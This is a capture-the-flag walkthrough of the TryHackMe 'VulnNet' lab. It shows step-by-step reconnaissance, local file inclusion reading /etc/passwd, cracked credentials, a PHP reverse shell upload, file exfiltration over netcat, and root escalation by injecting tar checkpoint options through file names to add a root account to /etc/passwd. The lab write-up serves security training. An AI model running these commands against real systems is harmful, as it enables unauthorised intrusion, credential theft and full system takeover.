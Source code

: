 # VulnNet

**Room Link:** [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -h vulnnet.thm
```

<figure><img src="../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>



Browsing gobuster we can see a subdomain, broadcast.vulnnet.thm

<figure><img src="../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>



## Fuzz Subdomain

We can see broadcast again when we scan for it.

**Kali**

```
gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://vulnnet.thm  
```

<figure><img src="../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>







## **LFI**

One of the other js files shows we can use referer to look at files.

<figure><img src="../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Confirmed it works

**Kali**

```
curl -s http://vulnnet.thm/?referer=/etc/passwd 
```

<figure><img src="../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
curl -s http://vulnnet.thm/?referer=/etc/passwd 
```



<figure><img src="../../.gitbook/assets/image (674).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>



## Crack Hash

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>



```
Username: developers
Password: 9972761drmfsls
```

<figure><img src="../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster -U developers -P 9972761drmfsls dir -u broadcast.vulnnet.thm -w /usr/share/wordlists/SecLists/Discovery/Web-C
ontent/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**exploit:** [https://www.exploit-db.com/raw/44250](https://www.exploit-db.com/raw/44250)

**Kali**

```
nc -lvnp 1234
```

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cd php-reverse-shell/
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761drmfsls
```

<figure><img src="../../.gitbook/assets/image (682).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





## Lateral Movement&#x20;

**Victim**

```
cd /var/backups/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (692).png" alt=""><figcaption></figcaption></figure>

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > ssh-backup.tar.gz
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < ssh-backup.tar.gz
```

**Kali**

```
tar xvf ssh-backup.tar.gz 
```

<figure><img src="../../.gitbook/assets/image (686).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt
```

<figure><img src="../../.gitbook/assets/image (687).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa server-management@$VICTIM 
Password: oneTWO3gOyac
```

<figure><img src="../../.gitbook/assets/image (688).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

<figure><img src="../../.gitbook/assets/image (693).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/opt/
cat backupsrv.sh
ls -lah backupsrv.sh
```

<figure><img src="../../.gitbook/assets/image (689).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/server-management/Documents
rm -rf 'Employee Search Progress Report.pdf' 
rm -rf 'Daily Job Progress Report Format.pdf'
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
chmod +x shell.sh
```

Once the cronjob runs are new root user will be created.

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (691).png" alt=""><figcaption></figcaption></figure>

